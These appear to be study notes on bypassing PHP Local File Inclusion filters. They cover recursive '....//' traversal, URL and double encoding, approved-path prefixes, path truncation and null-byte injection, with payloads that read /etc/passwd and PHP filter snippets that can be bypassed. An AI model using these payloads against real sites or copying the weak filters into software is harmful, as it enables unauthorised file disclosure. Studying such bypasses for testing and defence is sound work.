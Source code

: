 ### Overview

- Web applications may apply _basic LFI protections_, such as:
    - Path traversal filters
    - Input sanitization
    - Appending extensions
    - Path whitelisting
- These protections can often be bypassed using simple tricks unless properly implemented.

---
## Non-Recursive Path Traversal Filters

### Filter Example
```php
$language = str_replace('../', '', $_GET['language']);
```

### Bypass Technique
- Use recursive payloads:
    - `....//` → resolves to `../`
    - `..././` or `....\/` also work
    - `....////etc/passwd` bypasses filter and reads the file
- The filter only runs once and does not reprocess its output.

---
## Encoding

### Scenario

- Filters block `.` and `/` characters
### Bypass Technique

- URL encode traversal: `../` → `%2e%2e%2f`
- Use **Burp Decoder** or online tools for encoding
- Double encoding may bypass stricter filters

---
## Approved Paths

### Filter Example
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
}
```
### Bypass Technique

- Start payload with allowed path: `./languages/`
- Use path traversal afterward:
    - `./languages/../../../../etc/passwd`
- Combine with encoding or recursive payloads for added evasion

---
## Appended Extension

### Scenario
- Application appends `.php` to all inputs

### Implication
- Can only include files ending in `.php`

### Notes
- Still useful for source code reading if `.php` exists
- Bypass possible with older PHP versions using truncation or null bytes


---
## Path Truncation (Legacy)

### Behavior (Pre-PHP 5.3/5.4)

- PHP string max length = 4096 characters
- Anything beyond gets truncated
- Trailing slashes and `.` are ignored

### Bypass Technique

- Create a long path >4096 characters to truncate `.php`
```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

---
## Null Byte Injection (Legacy)

### Behavior (Pre-PHP 5.5)

- `%00` (null byte) ends string, anything after ignored
### Bypass Technique

- Payload: `/etc/passwd%00`
- If `.php` is appended: `/etc/passwd%00.php` → becomes `/etc/passwd`

---

## Summary Table

|Bypass Type|Technique|Effective Against|
|---|---|---|
|Recursive Traversal|`....//`, `..././`, `....\/`|Non-recursive filters|
|URL Encoding|`%2e%2e%2f`, double encoding|Character-based filters|
|Whitelist Prepend|`./languages/../../etc/passwd`|Path regex filters|
|Path Truncation|>4096-char string to truncate `.php`|Legacy PHP (≤ 5.3/5.4)|
|Null Byte Injection|`%00` to truncate appended strings|Legacy PHP (≤ 5.5)|